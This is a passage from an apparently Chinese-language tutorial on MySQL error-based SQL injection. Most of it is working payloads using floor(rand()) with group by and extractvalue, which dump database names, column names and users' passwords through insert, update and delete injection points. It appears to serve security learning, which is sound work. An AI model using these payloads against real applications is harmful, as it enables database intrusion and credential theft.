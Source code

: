   ```mysql
  
  // 爆出所有字段名
  1' and (select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e,floor(rand(0)*2)))#
  
  // 爆出所有字段名
  1' and (select count(*) from information_schema.columns group by concat(0x7e,(select group_concat(username,password) from users),0x7e,floor(rand(0)*2)))#
  
  //爆出该账户的密码。
  1' and (select 1 from(select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select password from users where username='admin1'),0x7e,floor(rand(0)*2)))a)# 
  
  //insert
  username=x' or (select 1 from (select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) or '
  
  //update
  add=hubeNicky' or (select 1 from (select count(*),concat(floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a) or '
  
  // delete
  id=56+or+(select+1+from(select+count(*),concat(floor(rand(0)*2),0x7e,(database()),0x7e)x+from+information_schema.character_sets+group+by+x)a)
  // 由于是在数据包中编辑，所以用+代替空格，避免歧义
  ```

  报错结果如下，显示出了数据库名称：

  ![image-20220727195036461](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220727195036461.png)

- `extractvalue(xml_frag, xpath_expr)`

  xml_frag为XML标记片段，xpath_expr表示从XML字符串中匹配元素。如果xpath_expr格式语法书写错误的话，就会报错，输出xpath_expr。利用这个特性可以构造注入点。

  利用concat函数将想要获得的数据库内容拼接到第二个参数中，报错时作为内容输出。

  ![1551928141656](https://blogs-pic.oss-cn-beijing.aliyuncs.com/images/2019-03-07 报错注入：extractvalue、updatexml/1551928141656.png?x-oss-process=style/shuiyin)

  ```mysql
  // insert
  username=x' or extractvalue(1,concat(0x7e,database())) or '
  
  // update
  add=hubeNicky' or extractvalue(1,concat(0x7e,database())) or '
  
  // delete
  ?id=56+or+extractvalue(1,concat(0x7e,database()))
  ```
